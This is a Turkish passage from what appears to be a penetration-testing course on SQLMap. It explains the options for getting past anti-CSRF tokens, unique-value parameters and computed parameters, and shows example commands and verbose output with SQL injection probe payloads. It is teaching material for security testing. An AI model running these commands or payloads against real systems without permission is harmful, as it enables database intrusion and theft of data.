 Bununla birlikte, SQLMap anti-CSRF korumasını atlatmaya yardımcı olabilecek seçeneklere sahiptir. Bunlardan en önemlisi --csrf-token seçeneğidir. Token parametre adının belirtilmesiyle (sağlanan istek verileri içinde zaten mevcut olması gerekir), SQLMap otomatik olarak hedef yanıt içeriğini ayrıştırmaya çalışacak ve bir sonraki istekte kullanabilmek için yeni token değerlerini arayacaktır.

Ek olarak, kullanıcının --csrf-token aracılığıyla token adını açıkça belirtmediği bir durumda bile, sağlanan parametrelerden biri yaygın eklerden herhangi birini (yani csrf, xsrf, token) içeriyorsa, kullanıcıya daha sonraki isteklerde güncelleyip güncellemeyeceği sorulacaktır:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```


### Unique Value Bypass
Bazı durumlarda, web uygulaması yalnızca önceden tanımlanmış parametreler içinde benzersiz değerlerin sağlanmasını gerektirebilir. Böyle bir mekanizma, web sayfası içeriğini ayrıştırmaya gerek olmaması dışında yukarıda açıklanan CSRF önleme tekniğine benzer. Dolayısıyla, her isteğin önceden tanımlanmış bir parametre için benzersiz bir değere sahip olmasını sağlayarak, web uygulaması CSRF girişimlerini kolayca önleyebilir ve aynı zamanda bazı otomasyon araçlarının önüne geçebilir. Bunun için, gönderilmeden önce rastgele hale getirilmesi gereken bir değer içeren parametre adına işaret eden --randomize seçeneği kullanılmalıdır:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```


### Hesaplanan Parametre Bypass
Benzer bir başka mekanizma da bir web uygulamasının uygun bir parametre değerinin diğer bazı parametre değer(ler)ine göre hesaplanmasını beklediği durumdur. Çoğu zaman, bir parametre değerinin diğerinin mesaj özetini (örneğin h=MD5(id)) içermesi gerekir. Bunu atlamak için, --eval seçeneği kullanılmalıdır, burada istek hedefe gönderilmeden hemen önce geçerli bir Python kodu değerlendirilir:
